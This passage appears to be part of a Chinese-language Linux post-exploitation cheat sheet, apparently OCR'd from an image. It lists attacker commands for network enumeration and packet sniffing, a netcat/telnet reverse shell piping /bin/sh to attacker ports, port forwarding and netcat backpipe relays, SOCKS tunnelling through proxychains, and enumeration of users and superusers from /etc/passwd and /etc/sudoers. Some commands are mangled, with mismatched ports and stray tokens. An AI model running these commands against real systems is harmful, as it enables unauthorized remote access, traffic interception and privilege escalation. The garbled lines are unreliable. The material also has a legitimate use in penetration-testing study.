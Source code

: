 ```
arp -e route /sbin/route -nee
```

**数据包嗅探是否可能？可以看到什么？**

```
tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.5.5.252 21
```

注意：`tcpdump tcp dst [ip][端口]`和`tcp dst [ip][端口]`

#### **我们有shell吗？**

```
nc -lvp 4444 # Attacker. Input (Commands)
nc -lvp 4445 # Attacker. Ouput (Results) telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445
```

#### **是否可以进行端口转发？重定向流量并与之交互**

注意：`FPipe.exe -l [本地端口] -r [远程端口] -s [本地端口][本地IP]`

```
FPipe.exe -l 80 -r 80 -s 80 192.168.1.7
```

注意：`ssh-[L / R][本地端口]：[远程IP]`：`[远程端口][本地用户] @ [本地IP]`

```
ssh -L 8080:127.0.0.1:80 root@192.168.1.7 # Local Port ssh -R 8080:127.0.0.1:80 root@192.168.1.7 # Remote Port
```

注意：`mknod backpipe p; nc -l -p [远程端口]backpipe`

```
mknod backpipe p ; nc -l -p 8080 < backpipe | nc 10.5.5.151 80 >backpipe # Port Relay
mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow 1>backpipe # Proxy (Port 80 to 8080)
mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow & 1>backpipe # Proxy monitor (Port 80 to 8080)
```

可以使用隧道吗？在本地远程发送命令

```
ssh -D 127.0.0.1:9050 -N [username]@[ip] proxychains ifconfig
```

## 机密信息和用户

#### **你是谁？谁登录？谁已经登录？那里还有谁？谁能做什么？**

```
id
who
w
last
cat /etc/passwd | cut -d: -f1 # List of users
grep -v -E “^#” /etc/passwd | awk -F: ‘$3 == 0 { print $1}’ # List of super users
awk -F: ‘($3 == “0”) {print}’ /etc/passwd # List of super users
cat /etc/sudoers
sudo -l
```
